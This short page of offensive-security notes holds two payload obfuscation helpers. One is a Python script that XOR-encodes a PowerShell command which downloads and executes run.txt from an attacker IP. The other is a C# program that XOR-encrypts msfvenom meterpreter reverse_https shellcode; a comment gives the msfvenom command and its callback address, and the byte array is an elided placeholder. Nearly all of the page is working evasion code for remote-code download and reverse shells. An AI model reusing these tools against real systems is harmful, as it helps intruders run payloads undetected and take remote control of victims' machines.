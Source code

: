 {% code title="PS-XOREncrypt-HEX.py" %}
```python
payload = r"powershell -exec bypass -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')"
output = ''.join([str(ord(c) ^ ord('a')).zfill(3) for c in payload])
print(output)
```
{% endcode %}

Shellcode XOR-encrypt helper for C# (msfvenom-like output style):

{% code title="XOREncrypt.cs" %}
```csharp
using System;
using System.Text;

namespace XOREncrypt
{
    class Program
    {
        static void Main(string[] args)
        {
            // msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-encrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            StringBuilder hex = new StringBuilder(buf.Length * 2);
            //foreach (byte b in buf)
            for (int i = 0; i < buf.Length; i++)
            {
                if (i != buf.Length - 1)
                {
                    hex.AppendFormat("0x{0:x2},", buf[i]);
                }
                else // no "," for the last line
                {
                    hex.AppendFormat("0x{0:x2}", buf[i]);
                }
                if ((i + 1) % 15 == 0)
                {
                    hex.AppendLine();
                }
            }

            Console.WriteLine($"byte[] buf = new byte[{buf.Length}] {{\n{hex.ToString()} }};");
        }
    }
}
```
{% endcode %}
